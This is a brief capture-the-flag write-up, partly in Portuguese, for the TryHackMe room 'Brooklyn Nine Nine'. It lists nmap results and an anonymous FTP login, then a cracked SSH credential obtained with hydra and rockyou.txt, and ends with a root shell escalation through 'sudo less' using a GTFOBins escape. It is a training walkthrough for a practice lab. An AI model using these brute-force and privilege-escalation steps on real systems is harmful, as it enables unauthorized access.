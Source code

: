 #ctf
# Brooklyn Nine Nine
https://tryhackme.com/room/brooklynninenine

## NMAP
        PORT   STATE SERVICE VERSION
        21/tcp open  ftp     vsftpd 3.0.3
        22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
        80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
        Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

## FTP  
anonymous:anonymous

From Amy,
Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

## Web  
alguma coisa de esteganografia talvez a foto...

## SSH  
jake:987654321 -> so usar hydra para fazer bruteforce no ssh com wordlist do rockyou.txt

## Linux
O binário "less" roda como root, so ir no GTFObins
```sh
sudo less /etc/profile
!/bin/sh
```
